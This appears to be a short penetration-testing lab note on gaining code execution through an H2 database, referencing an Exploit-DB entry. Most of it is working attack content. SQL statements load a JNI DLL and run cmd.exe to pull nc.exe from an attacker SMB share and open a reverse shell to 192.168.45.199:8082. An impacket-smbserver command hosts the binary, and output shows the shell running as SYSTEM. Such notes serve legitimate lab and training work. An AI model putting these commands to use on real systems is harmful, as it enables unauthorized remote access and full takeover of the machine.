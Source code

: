 [https://www.exploit-db.com/exploits/49384](#https://www.exploit-db.com/exploits/49384)


CREATE ALIAS IF NOT EXISTS System\_load FOR "java\.lang\.System\.load";
CALL System\_load\('C:\\Windows\\Temp\\JNIScriptEngine\.dll'\);

CREATE ALIAS IF NOT EXISTS JNIScriptEngine\_eval FOR "JNIScriptEngine\.eval";
CALL JNIScriptEngine\_eval\('new java\.util\.Scanner\(java\.lang\.Runtime\.getRuntime\(\)\.exec\("cmd\.exe /c //192\.168\.45\.199/Share/nc\.exe \-e cmd\.exe 192\.168\.45\.199 8082"\)\.getInputStream\(\)\)\.useDelimiter\("\\\\Z"\)\.next\(\)'\);

-  impacket\-smbserver \-smb2support Share /usr/share/windows\-resources/binaries\(to host an SMB share for nc\.exe to be used\)

-  C:\\\>echo %username%
echo %username%
SYSTEM

-  windows commands not working 
-  echo %PATH%

Fix PATH
-  set PATH=%SystemRoot%\\system32;%SystemRoot%;

